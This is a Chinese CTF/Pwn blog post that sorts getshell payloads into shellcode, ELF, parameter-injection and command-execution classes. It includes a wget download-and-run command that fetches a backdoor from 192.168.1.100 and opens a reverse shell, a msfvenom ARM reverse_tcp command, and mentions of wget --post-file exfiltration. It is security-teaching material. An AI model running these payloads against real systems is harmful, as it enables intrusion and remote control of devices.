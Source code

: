 ```yaml
---
title: Getshell载荷：payload的量级
date: 2020-12-13 00:00:02
categories:
- CTF/Pwn
tags: Getshell
---
```


> Getshell的背后就是代码执行，执行的是shell程序，并且此进程的输入输出可控。不过由于漏洞位置不同，输入点不同，达到Getshell目标的攻击载荷也不同。可以按照攻击载荷的量级来对payload进行分类，个人分为如下四类：shellcode，ELF，param，command。

|      | shellcode | ELF            | param                       | command           |
| ---- | --------- | -------------- | --------------------------- | ----------------- |
| 格式 | binary    | binary         | 字符串                      | 字符串            |
| 底座 | 内存破坏  | 可控ELF执行    | 某命令参数可控              | shell命令可控     |
| 进程 | 漏洞进程  | 被执行的新进程 | 漏洞程序进程/其启动的新进程 | shell启动的新进程 |

并且量级的payload间是存在包含关系，因为到最后是一定要建立远程连接和执行shell程序的：

![image](https://xuanxuanblingbling.github.io/assets/pic/shell/payload.png)


在嵌入式攻防的情景中，命令执行的payload常是下载我们构造的后门ELF程序，然后执行，所以我们的payload其实包含了两部分：ELF, command。如下我们先要自己编译出这个rsc后门，然后命令执行：

```python
cmd  =  "cd /tmp &&"
cmd +=  "wget http://192.168.1.100:8000/rsc &&"
cmd +=  "chmod 777 ./rsc &&" 
cmd +=  "./rsc 192.168.1.100 8888"
```

最后如果不同意本文的量级划分，也可以参考msfvenom中的类型来划分payload：

```bash
➜  msfvenom --list formats
```

## 内存破坏: shellcode

> 具体参考：[IoT安全研究视角的交叉编译:shellcode](https://xuanxuanblingbling.github.io/ctf/tools/2021/02/16/cross/)

总结shellcode一般有如下五种办法获得：

1. pwntools: asm(shellcraft.arm.linux.sh(),arch='arm')
2. msfvenom: msfvenom -p linux/armle/shell/reverse_tcp LHOST=192.168.1.100  LPORT=6666 -f py -o msf.py
3. shell-storm: [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)
4. exploit-db: [https://www.exploit-db.com/shellcodes](https://www.exploit-db.com/shellcodes)
5. 自己编译：[StarCTF 2021 RISC-V Pwn Favourite Architecture: shellcode编写练习](https://xuanxuanblingbling.github.io/ctf/pwn/2021/01/22/riscv/)

其中pwntools和自己编译两种方法是的确要进行本地编译的，不过这里的交叉编译工具就只要符合该指令集即可，没有C库的限制，因为一般来说不需要libc。

## 后门程序: ELF

> 具体参考：[IoT安全研究视角的交叉编译:ELF](https://xuanxuanblingbling.github.io/ctf/tools/2021/02/16/cross/)

如果要产出一个ELF的话，一般来说是有以下3种方法：

1. 自己编译：需要对应架构的完整的交叉编译工具链
2. pwntools：需要对应架构的binutils
3. msfvenom：不需要交叉编译工具，shellcode是现成的

## 选项注入: param

> 即无法逃逸出某个命令本体，只能任意构造该命令的选项参数加以利用，在CTF的Web中可能更常见。例如：使用wget的`--post-file`参数带出数据、使用find的`-exec`参数命令执行等。

linux中各种命令可以利用的选项总结：[https://gtfobins.github.io/](https://gtfobins.github.io/)
，其他示例：

- [XCTF高校战疫 移动赛题GetFlag出题记录](https://xuanxuanblingbling.github.io/ctf/android/2020/03/16/getflag/)
- [命令注入新玩法：巧借环境渗透测试目标](https://www.freebuf.com/articles/web/194574.html)
- [Bitbucket服务器参数注入漏洞(CVE-2019-15000)](https://caiqiqi.github.io/2019/11/03/Bitbucket%E6%9C%8D%E5%8A%A1%E5%99%A8%E5%8F%82%E6%95%B0%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E-CVE-2019-15000/)
- [bandit通关笔记:25-26](https://mp.weixin.qq.com/s/1pekcCj82qYT_YQcVkgcXw)

## 命令执行: command

> python、php等脚本程序执行算在这里，在Web情景中也可以称作代码注入。不过将此种情景算作选项注入也有道理，可看做解释程序固定，解释内容可控，内容就是解释程序的选项参数。如果可以任意的选择我用什么东西解释，python还是php等，这就得算命令执行了。怎么说都有理，理解即可。

- [Reverse Shell Cheat Sheet](https://github.com/flast101/reverse-shell-cheatsheet)
- [Linux下几种常见的反弹shell方式](https://www.jianshu.com/p/9456473a0a14)
- [Linux OS 命令注入指北](https://www.tr0y.wang/2019/05/13/OS%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%8C%87%E5%8C%97/)
- [巧用命令注入的N种方式](https://blog.zeddyu.info/2019/01/17/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/)